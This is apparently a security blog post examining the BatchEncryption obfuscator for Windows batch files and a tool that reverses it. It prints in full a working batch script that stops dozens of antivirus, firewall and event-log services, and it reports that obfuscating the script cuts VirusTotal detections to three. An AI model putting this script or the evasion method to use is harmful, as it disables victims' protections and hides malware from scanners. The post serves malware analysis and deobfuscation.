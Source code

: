 +++
title = "Exploring the BatchEncryption tool (and its deobfuscator) by gwsbhqt@163.com "
date = 2024-03-11T20:03:02+02:00
draft = false
tags = ["BatchEncryption","UnJlaive","obfuscation"]
categories = ["malware"]
ShowToc = false
author = ["connar"]
+++

## What is the BatchEncryption tool
The BatchEncryption tool is a tool used for obfuscating batch files. It is rather one of the most uncommon ones since it combines known and custom environment variable encodings to obfuscate the script. The way it works is it sets a randomly generated dictionary into a custom envar which is just a single quote ("'"). It then encodes it with existing environment variable substrings and then takes the remainder of the command using substrings of the custom environment variable declared previously.

The use of this tool was seen back in 2017 in the *Jawlan and Suriya.doc* (SHA-256: 761483906b45fad51f3c7ab66b1534dee137e93a52816aa270bc97249acb56d0) and has almost unknown at the time, with only 3 google search results. Now it has started to pop up more (mainly in .cn forums).

An example of a batch file obfuscated with BatchEncryption can be seen below:  
![example](/posts/batchEncryption/example.png)


The nice thing about this tool is that still in this day, it manages to get low AV detection in VT. Let's take a .bat sample that disables multiple different AV engines:
```bat
set ii=ne
set ywe=st
set ury=t
set iej=op
set jt53=Syma
set o6t=nor
set lyd2=fee
set h3d=ton
set gf45=ntec
set own5=McA
net stop "Security Center" /y
net stop "Automatic Updates" /y
net stop "Symantec Core LC" /y
net stop "SAVScan" /y
net stop "norton AntiVirus Firewall Monitor Service" /y
net stop "norton AntiVirus Auto-Protect Service" /y
net stop "norton AntiVirus Auto Protect Service" /y
net stop "McAfee Spamkiller Server" /y
net stop "McAfee Personal Firewall Service" /y
net stop "McAfee SecurityCenter Update Manager" /y
net stop "Symantec SPBBCSvc" /y
cls
net stop "Ahnlab Task Scheduler" /y
net stop navapsvc /y
net stop "Sygate Personal Firewall Pro" /y
net stop vrmonsvc /y
net stop MonSvcNT /y
net stop SAVScan /y
net stop NProtectService /y
net stop ccSetMGR /y
net stop ccEvtMGR /y
net stop srservice /y
net stop "Symantec Network Drivers Service" /y
net stop "norton Unerase Protection" /y
net stop MskService /y
net stop MpfService /y
net stop mcupdmgr.exe /y
net stop "McAfeeAntiSpyware" /y
net stop helpsvc /y
net stop ERSvc /y
net stop "*norton*" /y
net stop "*Symantec*" /y
net stop "*McAfee*" /y
cls
net stop ccPwdSvc /y
net stop "Symantec Core LC" /y
net stop navapsvc /y
net stop "Serv-U" /y
net stop "norton AntiVirus Auto Protect Service" /y
net stop "norton AntiVirus Client" /y
net stop "Symantec AntiVirus Client" /y
net stop "norton AntiVirus Server" /y
net stop "NAV Alert" /y
net stop "Nav Auto-Protect" /y
cls
net stop "McShield" /y
net stop "DefWatch" /y
net stop eventlog /y
net stop InoRPC /y
net stop InoRT /y
net stop InoTask /y
cls
net stop "norton AntiVirus Auto Protect Service" /y
net stop "norton AntiVirus Client" /y
net stop "norton AntiVirus Corporate Edition" /y
net stop "ViRobot Professional Monitoring" /y
net stop "PC-cillin Personal Firewall" /y
net stop "Trend Micro Proxy Service" /y
net stop "Trend NT Realtime Service" /y
net stop "McAfee.com McShield" /y
net stop "McAfee.com VirusScan Online Realtime Engine" /y
net stop "SyGateService" /y
net stop "Sygate Personal Firewall Pro" /y
cls
net stop "Sophos Anti-Virus" /y
net stop "Sophos Anti-Virus Network" /y
net stop "eTrust Antivirus Job Server" /y
net stop "eTrust Antivirus Realtime Server" /y
net stop "Sygate Personal Firewall Pro" /y
net stop "eTrust Antivirus RPC Server" /y
cls
net stop netsvcs
net stop spoolnt
```

The VT result of this is the following:  
![example](/posts/batchEncryption/VT_plain.png)
(I got to admin I was expecting more).

Now let's use the BatchEncryption tool to obfuscate our sample and load it again:
![example](/posts/batchEncryption/obfuscated_sample.png)

In just a text editor we can't really see what's going on because of the encoding used, but if we load it for example in cyberchef, it gets converted to utf8 and thus we can see readable chars. Anyways, we can see that indeed a lot of stuff is going on. Custom, existing envars, caret symbol for extra obfuscation etc. We also notice a header on top, which is the author of the program (gwsbhqt@163.com). Let's load it to VT and watch what happens:  
![example](/posts/batchEncryption/VT_obfuscated.png)

We successfully reduced our results to only 3! For any of you wondering what would happen if we had removed the header of the author and load it again, it would give the same results. 

Let's now see how we can deobfuscate samples obfuscated with this technique.

## Batch-Encryption-DeCoder
Luckily for us, there is already a tool for this purpose, which can be found here:
- https://github.com/cnHopeStudio/Batch-Encryption-DeCoder

We need to build this tool to get the final executable, which when run, gives us the original batch file: 

![example](/posts/batchEncryption/using_the_deobfuscator.png)


**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://i.blackhat.com/briefings/asia/2018/asia-18-bohannon-invoke_dosfuscation_techniques_for_fin_style_dos_level_cmd_obfuscation-wp.pdf">blackhat: <i>Exploring the Depths
of Cmd.exe Obfuscation and Detection Techniques</i></a></li>
        <li> [2] <a href="https://blog.csdn.net/Hunter98234/article/details/108672926">Amit: <i>Recipient batch processing documents confused by BatchEncryption (version 201610)</i></a></li>
        <li> [3] <a href="http://www.bathome.net/thread-42106-1-2.html">gwsbhqt: <i>[Original Tool][201610]BatchEncryption-BatchEncrying Encryption</i></a></li>
    </ul>
</blockquote> 
